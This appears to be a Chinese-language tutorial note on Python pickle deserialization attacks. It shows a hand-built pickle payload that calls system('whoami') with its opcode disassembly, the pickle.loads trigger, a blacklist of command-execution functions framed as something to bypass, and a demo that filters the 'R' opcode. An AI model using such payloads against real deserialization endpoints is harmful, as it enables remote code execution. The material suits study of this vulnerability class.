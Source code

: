 ```b'\x80\x04\x95\x18\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x8c\x06system\x93\x8c\x06whoami\x85R.'
		0: \x80 PROTO      4
    2: \x95 FRAME      24
   11: \x8c SHORT_BINUNICODE 'nt'
   15: \x8c SHORT_BINUNICODE 'system'
   23: \x93 STACK_GLOBAL
   24: \x8c SHORT_BINUNICODE 'whoami'
   32: \x85 TUPLE1
   33: R    REDUCE
   34: .    STOP
highest protocol among opcodes = 4
chocopc\choco
```

注意字节流中“R”表示apply callable to argtuple, both on stack，既`__reduce__`方法

python 反序列化利用方法
基本利用方法：
```pyton
optdata=b'\x80\x04\x95\x18\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x8c\x06system\x93\x8c\x06whoami\x85R.'
obj = pickle.loads(optdata)
```

## 通过`__reduce__`直接执行命令黑名单绕过

```python
black_type_list = ['Ichown', 'Istat', 'Popen', 'access', 'call', 'call_tracing', 'chdir', 
				   'check_call', 'check_output', 'chmod', 'chown', 'chroot', 'compile',
				   'compile command', 'copy', 'copy2', 'copyfile', 'copyfileobj', 'dup', 
				   'dup2', 'eval', 'execfile', 'execl', 'execle', 'execlp', 'execv', 
				   'execve', 'execvp', 'execvpe', 'exit', 'fchdir', 'fchmod', 'fchown', 
				   'fdopen', 'file', 'fileopen', 'fork', 'forkpty', 'getline', 'getoutput', 
				   'getstatus', 'getstatusoutput', 'glob', 'interact', 'kill', 'lchown', 
				   'link', 'listdir', 'load', 'loads', 'lstat', 'make_archive', 'makedirs',
				   'mkdir', 'mkfifo', 'mknod', 'move', 'nice', 'open', 'opendir', 'openpty'
				   , 'pipe', 'popen', 'popen2', 'popen3', 'popen4', 'read', 'readlink', 
				   'remove', 'removedirs', 'rename', 'renames', 'repeat', 'rmdir', 'spawn',
				   'spawnl', 'spawnle', 'spawnlp', 'spawnlpe', 'spawnv', 'spawnve', 'spawnvp',
				   'spawnvpe', 'system', 'tempnam', 'timeit', 'tmpfile', 'tmpnam', 'unlink', 
				   'walk']
```

找不再黑名单里的函数绕……上面的黑名单比较全吧，综合了几个能找到的黑名单函数。

## 过滤`__reduce__`方法利用1

例，过滤R操作符：
```python
class demo:
    def __init__(self):
        self.name = "test"


obj = demo()
picdata = pickle.dumps(obj)
picdata=pickletools.optimize(picdata)
print(picdata)
pickletools.dis(picdata)
if b'R' in picdata:
    print("danger")
    exit()
obj = pickle.loads(picdata)
print(obj.name)
```
